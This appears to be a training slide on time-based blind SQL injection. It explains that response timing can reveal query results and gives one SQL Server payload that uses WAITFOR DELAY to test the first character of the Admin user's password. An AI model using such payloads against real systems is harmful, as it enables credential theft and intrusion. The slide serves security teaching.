

# Time-Based Blind SQL Injection
In specific cases, it is possible to determine if a query was successful using the timing of the reply
For example, in SQL Server:
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Admin' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10' --